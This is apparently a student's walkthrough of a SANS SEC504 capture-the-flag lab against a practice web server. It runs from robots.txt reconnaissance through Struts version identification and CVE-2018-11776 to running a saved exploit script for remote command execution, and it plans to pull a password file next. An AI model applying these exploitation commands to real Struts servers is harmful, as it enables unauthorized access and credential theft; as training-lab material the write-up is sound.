 # SEC504 Ranges.io CTF - Walkthrough

This document contains my step-by-step solutions for the **orders.issplaylist.com** section challenges.  
Each section includes **question**, **steps taken**, and **answer/flag**.

---

## Search Engine Restriction
**Question:**  
Retrieve the search engine restriction resource on the web server orders.issplaylist.com. Enter the flag.

**Steps Taken:**
1. The phrase *search engine restriction* suggested looking for a `robots.txt` file.
2. Navigated to:  
   ```
   https://orders.issplaylist.com/robots.txt
   ```
3. Retrieved the flag from the file.

**Flag:**  
`NetWars{ValuableReconData}`


## Apache Struts Version
**Question:**  
Using the information on the orders.issplaylist.com website, identify the version of Apache Struts in use.

**Steps Taken:**
1. Viewed `robots.txt` file.
2. Noted the line:  
   ```
   Disallow: struts2-showcase-2.3.14
   ```

**Answer:**  
`2.3.14`


## Vulnerability Research
**Question:**  
Research the version of Apache Struts using in-game assets. Which CVE entry describes a known vulnerability for this version of Apache Struts?

**Steps Taken:**
1. Used **ClippedBin** OSINT resource to search for `struts`.
2. Located an exploit post containing the CVE reference.

**Answer:**  
`CVE-2018-11776`


## Exploit Identification
**Question:**  
Using in-game assets, identify an exploit left behind by the attackers. Enter the name of the exploit code author (first and last).

**Steps Taken:**
1. Located the exploit code via ClippedBin.
2. Found the author’s name in the comments.

**Answer:**  
`Mazin Ahmed`


## Vulnerability Exploitation
**Question:**  
Use the exploit to gain access to the orders.issplaylist.com server. Retrieve the flag in the `/opt/tomcat/webapps/ROOT` directory.

**Steps Taken:**
1. Saved exploit as `struts-exploit.py` and made it executable:
   ```bash
   chmod 755 struts-exploit.py
   ```
2. Verified script usage:
   ```bash
   ./struts-exploit.py -h
   ```
3. Initial attempt on base URL failed (not vulnerable).
4. Identified `.action` endpoint:  
   ```
   https://orders.issplaylist.com/showcase/help.action
   ```
5. Executed exploit:
   ```bash
   ./struts-exploit.py -u https://orders.issplaylist.com/showcase/help.action -c id --exploit
   ```
   **Output:**
   ```
   uid=1000(tomcat) gid=1000(tomcat) groups=1000(tomcat)
   ```
6. Listed directories:
   ```bash
   ./struts-exploit.py -u https://orders.issplaylist.com/showcase/help.action -c 'ls -l /opt/tomcat/webapps/ROOT/' --exploit
   ```
   Found `Flag.txt` file.
7. Retrieved flag:
   ```bash
   ./struts-exploit.py -u https://orders.issplaylist.com/showcase/help.action -c 'cat /opt/tomcat/webapps/ROOT/Flag.txt' --exploit
   ```
   **Output:**
   ```
   NetWars{SuccessfulExploit}
   ```

**Flag:**  
`NetWars{SuccessfulExploit}`


## Web Password File
**Question:**  
Using the same exploit access, examine the file used for storing encrypted passwords in the web root (`/opt/tomcat/webapps/ROOT/`). Submit the flag.

**Steps Taken:**  
*(to be continued with further exploitation steps — enumerate files in `/opt/tomcat/webapps/ROOT/`, identify the password storage file, and extract its contents).*

